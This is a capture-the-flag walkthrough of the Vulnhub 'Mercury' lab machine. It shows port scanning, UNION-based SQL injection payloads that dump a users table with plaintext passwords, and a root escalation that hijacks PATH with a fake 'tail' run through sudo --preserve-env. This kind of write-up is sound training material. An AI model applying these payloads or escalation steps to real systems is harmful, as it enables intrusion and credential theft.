# Vulnhub - The Planets: Mercury

Challenge: https://www.vulnhub.com/entry/the-planets-mercury,544/

# Setup

Let's download the file `Marcury.ova`, load into Virtualbox and go to `Setting -> System -> Tab Processor` to change CPU number into 2 (In my case the first value is 1):



Then go to Network and change adapter into `Host-only Adapter` which has IP segment is `192.168.101.0/24` (because I want to exploit from my wsl2, we need to make wsl2 can scan the target):



I cannot use NAT because I cannot ping from host to guest (target machine) when guest is NAT, while guest can ping to host. In `Host-only` mode, I can ping to guest from host while guest cannot. However, I think just pinging from host to guest is totally fine. After that, start the machine and scan for the ip of machine:

```cmd
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Mercury]
└─$ fping -aqg 192.168.101.0/24
192.168.101.1
192.168.101.100
192.168.101.101
```

IP `192.168.101.1` is the default gateway, `192.168.101.100` is the DHCP server so the target machine ip will be `192.168.101.101`.

# Reconnaissance

So now, let's scan for any open ports on that machine:

```cmd
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Mercury]
└─$ nmap -sCV -T5 -p- 192.168.101.101
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-20 14:39 +07
Nmap scan report for 192.168.101.101
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
| http-robots.txt: 1 disallowed entry
|_/
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Date: Mon, 20 Nov 2023 07:39:48 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html
|     X-Frame-Options: DENY
|     Content-Length: 2366
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Mon, 20 Nov 2023 07:39:48 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Content-Length: 69
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Hello. This site is currently in development please check back later.
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=11/20%Time=655B0D45%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,135,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2020\x20Nov\
SF:x202023\x2007:39:48\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.
SF:8\.2\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options
SF::\x20DENY\r\nContent-Length:\x2069\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nReferrer-Policy:\x20same-origin\r\n\r\nHello\.\x20This\x20site\x20
SF:is\x20currently\x20in\x20development\x20please\x20check\x20back\x20late
SF:r\.")%r(HTTPOptions,135,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2020\
SF:x20Nov\x202023\x2007:39:48\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPyt
SF:hon/3\.8\.2\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-
SF:Options:\x20DENY\r\nContent-Length:\x2069\r\nX-Content-Type-Options:\x2
SF:0nosniff\r\nReferrer-Policy:\x20same-origin\r\n\r\nHello\.\x20This\x20s
SF:ite\x20is\x20currently\x20in\x20development\x20please\x20check\x20back\
SF:x20later\.")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C
SF://DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://
SF:www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20
SF:content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\
SF:x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('R
SF:TSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20
SF:explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20synta
SF:x\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html
SF:>\n")%r(FourOhFourRequest,A28,"HTTP/1\.1\x20404\x20Not\x20Found\r\nDate
SF::\x20Mon,\x2020\x20Nov\x202023\x2007:39:48\x20GMT\r\nServer:\x20WSGISer
SF:ver/0\.2\x20CPython/3\.8\.2\r\nContent-Type:\x20text/html\r\nX-Frame-Op
SF:tions:\x20DENY\r\nContent-Length:\x202366\r\nX-Content-Type-Options:\x2
SF:0nosniff\r\nReferrer-Policy:\x20same-origin\r\n\r\n<!DOCTYPE\x20html>\n
SF:<html\x20lang=\"en\">\n<head>\n\x20\x20<meta\x20http-equiv=\"content-ty
SF:pe\"\x20content=\"text/html;\x20charset=utf-8\">\n\x20\x20<title>Page\x
SF:20not\x20found\x20at\x20/nice\x20ports,/Trinity\.txt\.bak</title>\n\x20
SF:\x20<meta\x20name=\"robots\"\x20content=\"NONE,NOARCHIVE\">\n\x20\x20<s
SF:tyle\x20type=\"text/css\">\n\x20\x20\x20\x20html\x20\*\x20{\x20padding:
SF:0;\x20margin:0;\x20}\n\x20\x20\x20\x20body\x20\*\x20{\x20padding:10px\x
SF:2020px;\x20}\n\x20\x20\x20\x20body\x20\*\x20\*\x20{\x20padding:0;\x20}\
SF:n\x20\x20\x20\x20body\x20{\x20font:small\x20sans-serif;\x20background:#
SF:eee;\x20color:#000;\x20}\n\x20\x20\x20\x20body>div\x20{\x20border-botto
SF:m:1px\x20solid\x20#ddd;\x20}\n\x20\x20\x20\x20h1\x20{\x20font-weight:no
SF:rmal;\x20margin-bottom:\.4em;\x20}\n\x20\x20\x20\x20h1\x20span\x20{\x20
SF:font-size:60%;\x20color:#666;\x20font-weight:normal;\x20}\n\x20\x20\x20
SF:\x20table\x20{\x20border:none;\x20border-collapse:\x20collapse;\x20widt
SF:h:100%;\x20}\n\x20\x20\x20\x20td,\x20th\x20{\x20vertical-align:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.02 seconds
```

There are only 2 open ports is 22, which is ssh, and 8080, which is a WSGI server (Web Server Gateway Interface server). Let's try to access that port on Chrome browser:



Nothing is interesting! I can see from nmap result it has file `robots.txt`:



Nothing too! Let's try to access some popular page like `admin`:



Oh wow, the webserver use Django of python to build web and they forgot setting `DEBUG = True`, hence we know there is another sublink is `mercuryfacts`:



The link `Load a fact` brings us to this page:



Can you see the number `1` at the end of the URL? Maybe we can change it to number `2`, `3` or somethings else. Trying with numbers gives us normal result but with letter, it shows error:



So the number is the fact_id used for a `WHERE` clause in a SQL statement, this means we can conduct a SQL Injection to this system! Let's scroll down a bit and we can see the SQL statement is being executed:



# User flag

We know there is SQL Injection. First, we need to know what is database name:

```sql
1 union select database()
```



We know current database is `Mercury`. Now, let's list all tables in this database (the reason is because usually, there will be a table for authentication):

```sql
1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'
```



So there are only 2 tables called `facts`, which is the facts we get, the other table is `users`, which is our target. Because we don't know how many columns in table `users`, we don't know each name of each column too, we will need to list all columns in that table:

```sql
1 union select group_concat(column_name) from information_schema.columns where table_name='users'
```



A ha, there are 3 columns called `id`, `username` and `password`. So let's get all the usernames and passwords:

```sql
1 union select username from users
```

```sql
1 union select password from users
```





So we have 4 credentials:

```
john:johnny1987
laura:lovemykids111
sam:lovemybeer111
webmaster:mercuryisthesizeof0.056Earths
```

We know from nmap result, port 22 is open for ssh so we can try with those 4 credentials and the last one works:



Now we get user flag:



# Root flag

The first thing I will do is to find if there are any binary that can help me get root or not:

```cmd
webmaster@mercury:~$ find / -type f -perm -u=s 2>/dev/null
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/chfn
/usr/bin/at
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

Searching on https://gtfobins.github.io/ but seems like no binary can be used. The next thing I will do is to check for list of commands can be run with sudo:

```cmd
webmaster@mercury:~$ sudo -l
[sudo] password for webmaster:
Sorry, user webmaster may not run sudo on mercury.
```

No hope! Maybe we cannot escalate to root with this user but we might escalate to another user. Reading file `/etc/passwd`, we know there are 2 other users are `mercury` and `linuxmaster`:

```cmd
webmaster@mercury:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
mercury:x:1000:1000:mercury:/home/mercury:/bin/bash
webmaster:x:1001:1001:,,,:/home/webmaster:/bin/bash
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash
```

From the home folder of webmaster, `cd` to folder `mercury_proj` and we found a note. Read the note, we see some base64 encoded text:



Let's decode to see what are they:





The first one `mercuryisthesizeof0.056Earths` is password of `webmaster` so the second one `mercurymeandiameteris4880km` have to be password of `linuxmaster`. Let's switch to that user with command `su linuxmaster`:



We have found no useful binary with user webmaster so finding again is just wasting time. But finding list of commands can be run with sudo is worthy:

```cmd
linuxmaster@mercury:~$ sudo -l
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

So user `linuxmaster` can execute the script `/usr/bin/check_syslog.sh` with root permission. Let's check what is inside the script:

```cmd
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

The script will execute binary `tail` taken from environment PATH. For example, binary `tail` are existed in both 2 folder `/usr/bin` and `/tmp`, and PATH environment is:

```
PATH=/usr/bin:/tmp
```

Execute the script will execute `tail` in `/usr/bin` because it will look into `/usr/bin` first, then `/tmp` if `tail` doesn't exist in `/usr/bin`. So if we set PATH into:

```
PATH=/tmp:/usr/bin
```

Execute the script will execute `tail` in `/tmp`, where we can arbitrary write anything we want. So we will fake a `tail` binary. We will create a file `/tmp/tail` with the following content:

```
/bin/bash
```



Now we will export `/tmp` path to the PATH environment and set the file `tail` to executable:

```cmd
export PATH=/tmp:$PATH
chmod +x /tmp/tail
```

Finally, we will execute the script `/usr/bin/check_syslog.sh` with sudo permission BUT with a parameter to preserve the PATH environment:

```cmd
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```



Now we can get root flag:



# Reference

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://quocdat.me/posts/the-planets-mercury-writeup-vulnhub/